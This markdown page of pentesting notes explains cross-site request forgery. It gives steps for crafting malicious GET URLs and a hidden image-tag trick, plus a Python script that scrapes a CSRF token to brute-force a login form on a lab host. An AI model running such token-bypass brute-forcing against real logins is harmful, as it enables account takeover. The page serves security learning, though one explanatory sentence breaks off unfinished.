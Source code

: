 # Cross Site Request Forgery

Cross site Request Forgery \(CSRF\) attacks forces the user to perform action the he did not intend to perform. This usually  possible by creating a malicious URL-address that the victim executes in his browser, while he is logged in.

## What's the worst that can happen?

The attacker can make actions for the user. For example change the email-address, make a purchase, or something like that. So it could be used to change the adress, and reset the password by sending an email.

## How to perform it?

1. Investigate how the website works  
   First you need to know how the application works. What the endpoints are.

2. Construct your malicious URL  
   Now you just construct the URL. Either using get or post.

3. `GET`  
   If you use only `GET` you can construct the URL like this:

[http://example.com/api/createUser?name=Jose](http://example.com/api/createUser?name=Jose)

* `POST`

If the requests are sent as `POST` you need to make the victim run a link that where you control the server. So that you can add the arguments in the body.

There is one creative trick for this. It is to use the image-tag. Because the image-tag can be used to automatically retrieve information from other sites. If you have an image on your site but it is referenced to

`<img style="display: none" src="http://example.com/image.jpg">`

## CSRF Bypass for Brute Force Example

Useful for setting up a potential username/password brute forcer

```
#!/usr/bin/python3
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import re

re_csrf = 'csrfMacgicToken = "(.*?)"'
# this grabs the contents of the csrfMacgicToken variable and uses regular expressions
# to get the contents of the value which this case is in double quotes. In this case csrfMacgicToken = "sid:1234"
# Note: this is case dependent make sure to change variable name or regular expressions based on the source page
# in this case the source page was of index.php 

s = requests.session()
#this make sure future request uses cookies without manually adding them

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
# This ignores the InsecureRequestWarning: Unverified HTTPS request is being made 

r = s.post('https://10.10.10.X/index.php', verify=False)
# verify=false ignores SSL validation

csrf = re.findall(re_csrf, r.text)[0]
login = {'__csrf_magic': csrf, 'usernamefld': 'd00mfist', 'passwordfld': 'dummy1234', 'login': 'Login' }
# Note the __csrf_magic variable was grabbed from a burp post request as well ad the variables usernamefld and 
# passwordfld
# This was the data field of post request: __csrf_magic=sid1234&usernamefld=test&passwordfld=test&login=Login

r = s.post('https://10.10.10.X/index.php', data=login)
print(r.status_code)
print(csrf)

```

## Protection

The only real solution is to use unique tokens for each request.

### References

[http://tipstrickshack.blogspot.cl/2012/10/how-to-exploit-csfr-vulnerabilitycsrf.html](http://tipstrickshack.blogspot.cl/2012/10/how-to-exploit-csfr-vulnerabilitycsrf.html)

[https://www.owasp.org/index.php/Testing\_for\_CSRF\_\(OTG-SESS-005](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005)\)

[https://www.owasp.org/index.php/Cross-Site\_Request\_Forgery\_\(CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF)\)

ippsec \(Sense\)

